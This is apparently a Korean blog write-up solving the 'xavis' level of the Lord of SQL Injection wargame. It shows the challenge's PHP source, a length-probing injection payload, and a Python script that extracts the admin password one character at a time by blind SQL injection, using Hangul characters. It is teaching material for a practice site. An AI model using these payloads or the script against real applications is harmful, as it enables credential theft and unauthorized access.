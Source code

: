 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] xavis"
excerpt_seperator: <!--more-->
comments: true
share: true
tags:
  - MitNy
  - Lord of SQL Injection
  - Write-up
---
```


Lord of SQL Injection - xavis

<!--more-->
### xavis 한글 조합 셋으로 풀기

`query : select id from prob_xavis where id='admin' and pw=''`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

`?pw=1' or length(pw)='1`와 같은 쿼리가 필터링 없이 잘 적용된다
이 쿼리로 알아낸 패스워드의 길이는 12이다.

알파벳,숫자 조합,substr로 패스워드를 한 글자씩 알아내려고 하면 Hello guest만 뜨고 admin의 경우는 알 수가 없다.

그래서 알아봤더니 패스워드가 한글이어서 그렇다!!
다른 분들은 Hex 값으로 알아낸 후 10진수로 바꿔주고 그 값을 한글로 바꿔주는 방식을 사용하셨는데,
답이 한글이라는 것을 알고있다는 전제 하에 한글 조합셋으로 문제를 푸는 코드를 짜봤다.
[한글 조합 파일](https://github.com/MitNy/Python-Web-Hacking/blob/master/LOS/hangul.txt)도 직접 만들었다.. 


```py
from requests import get
import string
from time import sleep

url = "https://los.rubiya.kr/chall/xavis.php"
cookies = dict(PHPSESSID="")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""
f = open("hangul.txt",mode="rt", encoding="utf-8")
line = f.read()
n_split = line.split("\n")
hangul = n_split[0].split(" ")
for i in range(0,len(hangul)):
    alpha += hangul[i]

for i in range(1,20):
    parameter = "?pw=1%27%20or%20length(pw)=%27"+str(i)+"%23"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is " + str(i))
        break

for j in range(1,length):
    for i in alpha:
        parameter = "?pw=1%27%20or%20substr(pw,"+str(j)+",1)=%27"+str(i)
        print(parameter)
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(j) + " -> " + str(i))
            result += str(i)
            break

    if j == 1 and result == "":
        print("password not found")
        exit(0)

    if j == length-1:
        result = result.lower()
        print("\npassword is "+result)
        print("\n")
```

진짜진짜 오래걸리니 Hex 값을 이용해 문제를 푸는 방식을 추천 드립니다..

![]({{ site.baseurl }}/images/mitny/los/xavis_result.png)

![]({{ site.baseurl }}/images/mitny/los/xavis_clear.png)
